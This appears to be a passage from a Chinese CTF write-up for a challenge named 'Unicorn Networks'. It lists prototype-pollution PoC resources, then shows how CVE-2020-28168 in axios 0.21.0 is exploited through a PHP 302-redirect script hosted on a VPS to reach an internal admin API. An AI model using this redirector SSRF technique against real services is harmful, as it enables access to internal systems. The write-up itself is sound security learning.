   - 原型链污染poc集合：[client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
  - 原型链污染fuzz：[pollute.js](https://github.com/securitum/research/tree/master/r2020_prototype-pollution)
  - 原型链未初始化变量寻找插件：[untrusted-types](https://github.com/filedescriptor/untrusted-types)

  




    







## 0x01 Unicorn Networks（solved）

http://192.46.237.106:3000/

`GET /api/getUrl?url=http://127.0.0.1:3000`尝试ssrf没啥结果。



![image-20210328130218506](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328130218506.png)

查看报错回显发现是axios0.21.0版本，经查找此版本存在[CVE-2020-28168 ](https://nvd.nist.gov/vuln/detail/CVE-2020-28168)ssrf漏洞。

漏洞描述：https://twitter.com/cvenew/status/1324815140701806592

> CVE-2020-28168 Axios NPM package 0.21.0 contains a Server-Side Request Forgery (SSRF) vulnerability where an attacker is able to bypass a proxy by providing a URL that responds with a redirect to a restricted host or IP address.

该漏洞具体分析见：

- [记一次 Github 项目依赖的安全警告修复 & 分析](https://www.jianshu.com/p/4e868ca212ae)



具体方法是利用302跳转：

最开始我在vps上部署如下脚本：

```php
<?php
$schema = $_GET['s'];
$ip     = $_GET['i'];
$port   = $_GET['p'];
$query  = $_GET['q'];
if(empty($port)){
    header("Location: $schema://$ip/$query");
} else {
    header("Location: $schema://$ip:$port/$query");
}
```

然后访问：

` /api/getUrl?url=http://vpsip/index.php?s=http&i=127.0.0.1&query=/api/admin/ `
